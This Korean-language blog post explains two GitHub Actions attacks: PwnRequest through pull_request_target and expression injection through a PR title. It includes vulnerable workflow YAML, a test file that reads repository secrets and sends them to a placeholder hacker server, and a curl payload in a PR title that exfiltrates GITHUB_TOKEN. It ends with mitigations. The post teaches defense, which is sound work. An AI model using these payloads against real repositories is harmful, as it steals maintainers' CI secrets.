



## 🔭 이전 포스팅에서의 공격을 요약하자면..
이전 포스팅에서는 Github Actions에서 CI를 설계할 때 Github 상에서 ==공인된 actions의 Maintainer 하나가 해커에게 탈취되었을 때==, 그와 연관되어있는 !!모든 레포지토리의 환경 변수 값들이 해커의 서버로 전달!!되는 것을 확인할 수 있었습니다. 최근에 발생했던 trivy 보안 사고도 이러한 방식으로 해킹이 일어났던건 사실이지만, 이는 외부 actions를 사용할 때 일어나는 해킹 사고였습니다. 하지만 ==실제 공격은 외부 공급망뿐만이 아니라, 우리 팀이 직접 작성한 Github CI/CD 환경에서도 일어날 수 있다는 점==이고 이 파이프라인의 약점이 언제든지 대규모 공급망 공격의 타깃이 될 수 있기 때문에 ++GitHub Actions 파이프라인 내부에서 발생할 수 있는 주요 취약점과 공격 기법++에 대해서 알아보겠습니다.

## 🏺 PwnRequest 공격
기존의 actions를 사용했던 공격은 한 가지 가정을 했습니다. 바로 Maintainer의 계정을 탈취해야한다는 가정요. 하지만, 실제로 CI 로직에 취약한 부분이 있다면, 우리는 ==Maintainer의 계정을 탈취하지 않고==도 Pull Request 요청 하나로 해당 레포지토리의 Maintainer의 중요한 토큰을 탈취할 수 있습니다.

### 🎊 그래서 어떻게 하냐구요..
제가 아래 설명할 부분은 Python으로 설명하겠지만, Javascript, Java, C++, C 서비스에서 다 똑같이 작동합니다. 이해를 위해서 Python을 선택했을 뿐, 기본적인 로직은 동일하다고 보시면 됩니다.

우리가 하나의 예시를 들어봅시다. Contributor가 내 레포지토리로 PR을 전송할 때, 혹시 악의적으로 취약한 코드를 전송할 수 있을 것 같아서 SAST 도구를 CI 로직에 붙이려고 합니다. 제가 앞에서 설명했듯이 CI 단계에서 빌드 부분에 SAST 도구를 붙이는건 일반적인 관례이고, 많이들 그렇게 씁니다. 그래서 ==우리는 SONARQUBE라는 SAST 도구를 붙인 이후에 실제로 Contributor에게 PR comment로 해당 SAST 도구를 동작시킨 결과를 코멘트==해주려고 합니다. 이 때, 우리가 이 레포지토리에 secrets로 지정해야하는 2가지 환경변수는 뭘까요? 일단 Github Repository에 Comment를 써야하니깐, GITHUB_TOKEN이 필요하겠고, SONARQUBE를 사용할꺼니깐, <사용자이름>_SONAR_TOKEN이 필요하겠죠?

위에서 말한 환경변수들을 사전에 레포지토리에 secrets로 저장을 해둡시다. 그 다음에 알아야할게 있는데, pull_request랑 pull_request_target의 차이점입니다. ++pull_request++는 ==해당 레포지토리에 있는 환경변수 값들을 사용할 수 없습니다.== 환경변수값들에 접근을 할 수 없다보니, 제가 PR Comment를 작성하고, SonarQube를 동작시킬 수 없다는거죠. 그래서 등장한게 ++pull_request_target++인데 이 경우 pull_request와 달리 ==해당 레포지토리에 환경변수의 값을 사용할 수 있습니다.== 당연히 제가 구현하는 자동화에 필요한건 pull_request_target이겠죠?

### ⌛ Supplier의 코드
```bash
name: This is basic ci logic

on:
  pull_request_target:
    types: [opened, synchronize]

jobs:
  pr-test:
    runs-on: ubuntu-latest
    steps:
      - name: Checkout PR Code
        uses: actions/checkout@v7
        with:
          ref: ${{ github.event.pull_request.head.sha }}

      - name: Setup Python
        uses: actions/setup-python@v5
        with:
          python-version: '3.11'

      - name: Run PR Unit Tests
        run: |
          pip install -r requirements.txt
          pytest
        env:
          THIS_IS_TEST: ${{ secrets.THIS_IS_TEST }}
          PXXGUIN_SONAR_TOKEN: ${{ secrets.PXXGUIN_SONAR_TOKEN }}

```
이 코드는 정말 직관적으로 이해할 수 있습니다. 일단 ==가장 최근에 전송된 PR의 해시값을 통해서 checkout(clone)==합니다. ref라는 옵션은 checkout을 할 레포지토리를 지정한다고 생각하시면 됩니다. 이후 Python 의존성을 설치하고, 3.11 버전을 사용해서, ==pytest 라이브러리로 tests/test_*.py에 존재하는 모든 함수에 대해서 테스트를 진행==합니다. 

만약 tests/test_*.py에 해커가 취약한 코드를 넣어두었다면? 이 코드가 동작을 하겠죠? 그러면 ==이 테스트 코드에 해커의 서버를 백도어로 둔다면?== 해커는 해당 레포지토리의 Maintainer의 모든 환경변수를 탈취할 수 있을겁니다.

### ☎️ 실제로 가능한가요?


Supplier의 디렉토리 구조는 위 사진과 생겼습니다. requirements.txt랑, .github/workflows/supplier_ci.yaml이 메인 코어입니다. 원래 디렉토리 구조를 tree로 보여주고 싶은데, 별로 안예뻐서 그냥 캡쳐했습니다.

Hacker는 이 레포지토리를 fork를 한 이후에 tests/test_*.py의 파일을 작성한 이후에 PR을 전송해보도록 하죠.
```python
import os
import urllib.request
import json
import base64

def test_malicious_exfiltration():
    test_token = os.environ.get("THIS_IS_TEST", "NOT_FOUND")
    sonar_token = os.environ.get("PXXGUIN_SONAR_TOKEN", "NOT_FOUND")

    data = {
        "test_token": test_token,
        "sonar_token": sonar_token,
    }

    req = urllib.request.Request(
        "<해커의 서버>", 
        data=json.dumps(data).encode('utf-8'),
        headers={'Content-Type': 'application/json'}
    )
```
위의 로직을 테스트 함수로 넣은 후에, Supplier의 레포지토리에 Pull Request를 보낸다면 Supplier는 Merge, Review  등 아무것도 안했는데 눈뜨고 코가 베이는 상황이 발생합니다. 저는 secrets 변수를 알고 있지만, 실제 해킹 환경에서는 정확한 변수를 모르기 때문에 이전 포스팅에서 사용했던 env를 dump뜨겠죠?



## 🛁 Expression Injection
Expression Injection은 뭐냐.. 아래와 같은 .yaml파일을 가지는 레포지토리가 있다고 칩시다. ==우리가 workflow를 실행 하는 과정 중에서 Contributor가 지정한 PR의 제목을 보고 싶거나, 내용을 workflow에 echo 하고 싶을때가 있습니다.== 이때 사용자가 악의적으로 PR 제목부분에 !!장난!!을 치면 어떨까요?

약간 ++SQL Injection이랑 비슷하다면 비슷한건데++ 이 제목 하나로 해당 레포지토리가 가지고 있는 중요한 환경변수 값을 탈취할 수 있습니다. 이번 예시는 GITHUB_TOKEN을 탈취해보겠습니다. 아래는 진짜 세상에서 제일 간단한 supplier의 .yml 코드입니다.

```yaml
name: This is Expression Injection Attack
on:
  pull_request
jobs:
  print:
    runs-on: ubuntu-latest
    steps:
      - name: Echo PR Title
        env:
          GIT_TOKEN: ${{ secrets.GITHUB_TOKEN }}
        run: |
          echo "PR title: ${{ github.event.pull_request.title }}"
```
그냥 다른 Contributor가 작성한 PR 제목을 가져오는 예십니다. 근데 이 예시에서 사용자가 PR title에 아래와 같은 코드를 적용시켜서 PR을 전송한다면 어떻게 될까요???
```bash
Fix bug"; curl -s -X POST "<해커 서버>" -H "Content-Type: application/json" -H "ngrok-skip-browser-warning: true" -d "{\"attack_type\":\"Expression Injection (Practice 2)\", \"repo\":\"$GITHUB_REPOSITORY\", \"workflow\":\"$GITHUB_WORKFLOW\", \"actor\":\"$GITHUB_ACTOR\", \"github_token\":\"$GIT_TOKEN\"}" # 
```

위 코드에서 ==github.event.pull_request.title은 Fix bug==를 가져옵니다. 하지만, !!세미콜론으로 인해서 다음에 오는 명령을 실행할 수 있도록 바뀌게 되고 이는 중요한 환경변수가 털리는 상황이 발생!!하게 됩니다. echo "PR title: ${{ github.event.pull_request.title }}" 문장 하나때문에요.



보이시나요? 저 step 하나 때문에 해당 레포지토리의 Supplier의 Github Token이 털렸습니다 ㅎ...

## 🗃️ 전반적인 통찰??
첫 번째 예시인 PwnRequest의 경우, pull_request_target이 실제로 많이 사용되는 로직인데 ==Github에서 이 공격을 방지하기 위해서 pull_request_target을 못쓰게 막아두긴 했습니다.== 이를 allow-unsafe-pr-checkout: true 같은 무시 옵션을 줄 수 있는데 이는 매우 위험해 보이지만, ==실무 현장에서는 개발 편의성과 자동화의 이점 때문에 여전히 위험을 감수하고 이 옵션을 켜서 운영하는 곳이 수없이 존재합니다.==

두 번째 예시인 Expression Injection의 경우, 마땅한 솔루션이 없습니다. 이를 방지하기 위해서는 env: 라는 파라미터 아래에 변수들을 넣으면 되는데, 이걸 모르는 개발자들은 그냥 ==아무대서나 환경변수를 불러오겠죠?== 이 취약점은 GitHub Actions 플랫폼 자체의 버그라기보다는 GitHub Actions의 표현식 처리 규칙(${{ ... }})과 Bash 셸의 문자열 치환 구조가 결합되어 발생하는 script injection 문제입니다. 이 때문에 GitHub 보안팀에서도 이를 플랫폼 결함이 아닌 개발자 사용 미숙으로 분류하며, 결국 ++Maintainer에게 책임을 전가++하게 됩니다.

현실적인 최선책은 1. 개발팀 내부에서 run: 내 ${{ ... }} 직접 사용 금지라는 작성 표준을 강제하고, 2. Actionlint나 Checkov 같은 CI/CD 전용 정적 분석 도구를 PR 단계에 도입하여 취약한 .yml 구문이 메인 브랜치에 반영되지 않도록 사전에 검증하는 프로세스를 갖추는 것뿐입니다.

만약 이 부분을 솔루션으로 해결할 수 있다면 막대한 부를 축적할 수 있지 않을까 예상해봅니다...ㄴ